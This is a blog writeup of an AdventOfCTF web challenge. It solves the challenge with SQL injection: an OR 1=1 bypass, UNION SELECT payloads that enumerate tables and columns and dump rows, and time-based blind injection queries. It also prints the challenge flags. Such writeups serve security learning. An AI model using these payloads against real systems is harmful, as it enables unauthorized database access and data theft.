 +++
author = "Maik de Kruif"
title = "Challenge 7 - AdventOfCTF"
date = 2020-12-07T16:43:23+01:00
description = "A writeup for challenge 7 of AdventOfCTF."
cover = "img/adventofctf/9fac6046540f4972c60f458b94aacb1d.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "sql-injection",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 700

## Description

Santa has a naughty list, I wonder who is on it? I hope it is not the blind mice!

Visit <https://07.adventofctf.com> to start the challenge.

## Finding the vulnerability

When opening the challenge website, we, yet again, see a search bar. Could this be another SQL Injection challenge? Let's try `'`. No result, bet the column name is also gone, so it probably do some SQL injection.

### SQL Injection

This time, no error message is shown. But the output is! (I'll get back to that later 😀.) First of all, let's get an idea of what the query to the database might be. I could be this:

```sql
SELECT why FROM naughty WHERE why LIKE '%search text%';
```

If this were the query, we can easily try to just get all records. To do this, we need to modify the `WHERE` statement to always be try. A way to do this is to add a `OR 1=1 -- ` to the query as `1` is always equal to `1`. But how do we do that? Well, is the backend doesn't properly create a query, we can escape the string inside the `WHERE` query and add our own code. An example input would be `' OR 1=1 -- `. If this would be inserted inside the query we would get this:

```sql
SELECT why FROM naughty WHERE why LIKE '%' OR 1=1 -- %';
```

If we input this (`' OR 1=1 -- `) in the search field, we get the flag! It is `NOVI{bl1nd_sql1_is_naughty}`

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#7-8).

## Part 2

This, however, wasn't the solution the creator ([@credmp](https://twitter.com/credmp)) had intended. So he added another challenge. The description was this:

> Challenge 7 had a very unintended easy solution. This was my mistake and it did not surface during playtesting. In order to make it worth your while to solve the challenge in the intended way, please enter the username of the user on the naughty list to receive some additional (possibly very important) points

We can, however, solve this challenge in an unintended way as well 😀.

### Table name

Let's have a look at our guessed query again:

```sql
SELECT why FROM naughty WHERE why LIKE '%search text%';
```

This time, we probably want to get some other columns from the database. To do this, we have to know the table name first. A query to get all tables from a MySQL database is the following:

```sql
SELECT table_name FROM information_schema.tables --
```

If we adjust this query to be injectable in the original query, we get this:

```text
' UNION SELECT table_name FROM information_schema.tables --
```

Which, inside the query would look like the following:

```sql
SELECT why FROM naughty WHERE why LIKE '%' UNION SELECT table_name FROM information_schema.tables -- %';
```

Here we use a `UNION SELECT` to add rows from another table in to the results. The result of this input contains lots of rows, but if we strip the default ones, we get are left with one row:

| Who?    |
| ------- |
| naughty |

### Column names

Now that we know the table name, we can then get the columns from it with this query:

```sql
SELECT column_name FROM information_schema.columns WHERE table_name = "naughty"
```

If we convert this to an input, we get `' UNION SELECT column_name FROM information_schema.columns WHERE table_name = "naughty" -- `. This return the following rows:

| Who?     |
| -------- |
| id       |
| username |
| badthing |

### Table content

Knowing the table and column names, we can get all rows in the table. This output of the original query, however, only has one row. Because of this, we have to concatenate the results of the different columns together. A query for this would be:

```sql
SELECT CONCAT(id, " | ", username, " | ", badthing) FROM naughty
```

Converted to an input we get `' UNION SELECT CONCAT(id, " | ", username, " | ", badthing) FROM naughty -- `, which, after submitting it, gives us one row:

| Who?                                        |
| ------------------------------------------- |
| 1 \| egische \| NOVI{bl1nd_sql1_is_naughty} |

As the username is the second column, it is "egische".

This flag can then be submitted [here](<https://ctfd.adventofctf.com/challenges#Challenge%207%20(additional)-26>).

## The actual intended solution

The intended way to solve this challenge was to use blind SQL injection. Which means you do not get a visual response. You might think "How is that possible without a result?". It's actually pretty easy but it takes some time. A way to do it is to use `SLEEP()` statements.

### Database name

For instance, let's say the query in the backend is the following:

```sql
SELECT why FROM naughty WHERE other_column = 'search text';
```

To get the database name, we could write a query that takes some time if a sub-query returns a result and doesn't if it doesn't. An example of such a query would be the following:

```sql
SELECT CASE WHEN (SELECT DATABASE() LIKE "a%") THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END
```

This would run `BENCHMARK(9000000,MD5(1))` if the sub-query returns more than 1 row. The `BENCHMARK()` is used because it's a function that takes a while to run.

This query will have to be converted to an input first. This will become `' UNION SELECT CASE WHEN (SELECT DATABASE() LIKE "a%") THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END -- `

If we replace `a` with another letter we can find out the database name like this:

```text
a
b
...
t
ta
...
te
tea
...
tes
...
testdb
```

This will, of course, take some time.

### Other tables

To get the tables inside the database, the same method will have to be used. An example query for this would be the following:

```sql
SELECT CASE WHEN COUNT((SELECT table_name FROM information_schema.tables WHERE table_name LIKE "a%" AND table_schema = "testdb" LIMIT 1))>0 THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END
```

Which will convert to `' UNION SELECT CASE WHEN COUNT((SELECT table_name FROM information_schema.tables WHERE table_name LIKE "a%" AND table_schema = "testdb" LIMIT 1))>0 THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END -- `

By using this method, we can get the all database records but it will take a long time.
